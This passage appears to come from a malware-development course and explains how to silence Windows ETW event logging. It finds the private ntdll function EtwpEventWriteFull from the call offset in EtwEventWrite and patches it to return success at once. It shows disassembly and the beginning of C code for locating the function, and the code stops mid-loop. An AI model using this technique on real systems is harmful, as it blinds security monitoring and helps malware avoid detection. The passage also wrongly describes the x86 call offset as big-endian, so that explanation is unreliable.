While the patch itself for `EtwpEventWriteFull` can be as straightforward as a `ret` instruction placed at the beginning of the function, the main difficulty lies in locating the address of the function. Since `EtwpEventWriteFull` is a private function that is not exported from the `ntdll.dll` module, obtaining its address presents a challenge. To find a solution, it is essential to understand how the `call` instruction operates when using an offset, which is the case when calling `EtwpEventWriteFull` from `EtwEventWrite`.

The following assembly code is extracted from the end of the `EtwEventWrite` function.

```
00007FFCC7C7FBE4 | E8 0F000000              | call <ntdll.EtwpEventWriteFull>                                   
00007FFCC7C7FBE9 | 48:83C4 58               | add rsp,58                                                       
00007FFCC7C7FBED | C3                       | ret                                                                
```

The hex value `0F000000` is the offset from the address `00007FFCC7C7FBE9` to the `EtwpEventWriteFull` function. However, it is important to note that the offset is in big-endian representation (recall _Module 23 - Payload Obfuscation - UUIDFuscation_), which means the actual offset is `0000000F`. To prove this, one can add `00007FFCC7C7FBE9` and `0F` together, resulting in the address `00007FFCC7C7FBF8`, which represents the address of the internal `EtwpEventWriteFull` function shown in the image below. Keep in mind that the offset to `EtwpEventWriteFull` starts from the instruction **after** the `call` instruction.

![](https://maldevacademy.s3.amazonaws.com/new/update-three/etw-4-448766554-9594ea83-4f5c-479f-9c37-637e7702a618.png)

#### PatchEtwpEventWriteFullStart Function

The `PatchEtwpEventWriteFullStart` function modifies the beginning of the `EtwpEventWriteFull` function by inserting a shellcode consisting of `xor eax, eax` and `ret` instructions. This alteration causes `EtwpEventWriteFull` to return an `ERROR_SUCCESS` code without actually executing its original functionality.

`PatchEtwpEventWriteFullStart` also makes use of a helper function, `FetchEtwpEventWriteFull`, which is used to retrieve the address of `EtwpEventWriteFull`. The `FetchEtwpEventWriteFull` function uses a similar approach to the previously introduced `PatchEtwpEventWriteFullCall` function in order to locate the target `call EtwpEventWriteFull` instruction. It advances from the initial address by a total of five bytes, effectively bypassing `call EtwpEventWriteFull`'s opcode. Next, `FetchEtwpEventWriteFull` adds the offset to the current address, resulting in a calculated value that represents the address of `EtwpEventWriteFull`. This calculated value is then returned by the `FetchEtwpEventWriteFull` function.

```c
#define x64_CALL_INSTRUCTION_OPCODE			0xE8		// 'call'	- instruction opcode
#define x64_RET_INSTRUCTION_OPCODE			0xC3		// 'ret'	- instruction opcode
#define x64_INT3_INSTRUCTION_OPCODE			0xCC		// 'int3'	- instruction opcode


// Get the address of 'EtwpEventWriteFull'
PVOID FetchEtwpEventWriteFull() {

	INT		i				= 0;
	PBYTE	pEtwEventFunc	= NULL;
	DWORD	dwOffSet		= 0x00;

	// Both "EtwEventWrite" OR "EtwEventWriteFull" will work
	pEtwEventFunc = (PBYTE)GetProcAddress(GetModuleHandleA("NTDLL"), "EtwEventWrite");
	if (!pEtwEventFunc)
		return NULL;

	// A while-loop to find the last 'ret' instruction
	while (1) {
		if (pEtwEventFunc[i] == x64_RET_INSTRUCTION_OPCODE && pEtwEventFunc[i + 1] == x64_INT3_INSTRUCTION_OPCODE)
			break;
```